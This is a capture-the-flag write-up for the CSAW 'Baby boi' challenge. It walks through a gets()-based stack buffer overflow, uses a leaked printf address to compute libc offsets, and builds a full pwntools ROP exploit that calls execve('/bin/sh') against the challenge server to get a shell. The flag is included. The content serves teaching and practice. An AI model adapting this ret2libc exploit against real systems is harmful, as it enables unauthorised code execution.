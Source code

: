 # Baby boi (50)

We are given a 64bit binary, a libc and even the source code .
Our first assumptions is that it's a BOF (Buffer OverFlow) challenge cuz we can see the `gets` function with no control of the input length.
And we can see also that it's giving us the adress of `printf` in libc so no leak needed here.


![img1](executing.png)


and we also have the libc linked in the server so the attack scenario is simple:

1-get the leaked adress of printf.

2-get the offset of printf in libc and calculate the base adress.

3-collect needed gadgets and build the ROP chain.

4-from the base calculate the locations of `execve` and `/bin/sh` string to perform a ```execve("/bin/sh",0,0)``` call in order to get an interractive shell and then we can get the flag.


Let's start by getting offsets of printf and execve. To do that we can use `readelf` with `-s` option on the given libc to get the symbols table and from that we grep printf and execve.


![img2](readelf_printf.png)


we can see that the offset of printf in libc is `0x64e80`.


![img3](readelf_execve.png)


and the offset of execve in libc is `0xe4e30`.

okay let's start creating our exploit. Pwntools will make our life so much easier. First of all we have to get the leaked adress and calculate the base location.


```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
```

![img4](ex1.png)

if you notice that the base adress always ends with 000 because it's the beginning.

now we have to calculate the location of execve by adding the execve offset from libc to the base so the exploit become like:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
p = process("./baby_boi",env=env)
data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x64e80
print "base: ",hex(base)
execve = base + 0x00000000000e4e30
print "execve_libc: ",hex(execve)
```

we can use gdb to calculate of offset between `execve` and `/bin/sh` string in libc so we can calculate its location.

![img5](gdb.png)


we can see that the offset is `0xcf06a`.

Okay now we need just the gadgets to perform the call that we want execve needs 3 arguments so we have to control `rdi`,`rsi` and `rdx` nad it's not a problem since we have the libc file and the libc base we can calculate locations for every gadget we want.

last step to go is to get the padding of the stack to control `RIP` or the instructions pointer peda is very good at this using its `pattern` tool with `create` and `offset` options.

![img6](patt.png)

We can see that the padding is 40 so our buffer is away 40 bytes from the saved return adress.

Everything is ready now just we need to complete the exploit and run it:

```python
from pwn import * 
env = {"LD_PRELOAD":"./libc-2.27.so"}
#p = process("./baby_boi",env=env)
p = remote("pwn.chal.csaw.io",1005)

data = p.recv()
data = data.split("\n")[1]
data = data.split(" ")[3]
printf_libc = int(data,16)
base = printf_libc - 0x0000000000064e80
execve = base + 0x00000000000e4e30
binsh = execve + 0xcf06a
print "base: ",hex(base)
print "execve_libc: ",hex(execve)
print "binsh: ",hex(binsh)
pop_rdi = 0x0000000000400793
paylaod = ""
paylaod += "A"*40
paylaod += p64(0x0000000000400791)
paylaod += p64(0)
paylaod += p64(0)
paylaod += p64(pop_rdi)
paylaod += p64(binsh)
paylaod += p64(execve)
p.sendline(paylaod)
p.interactive()
```
![img7](final.png)

FLAG: `flag{baby_boi_dodooo_doo_doo_dooo}`
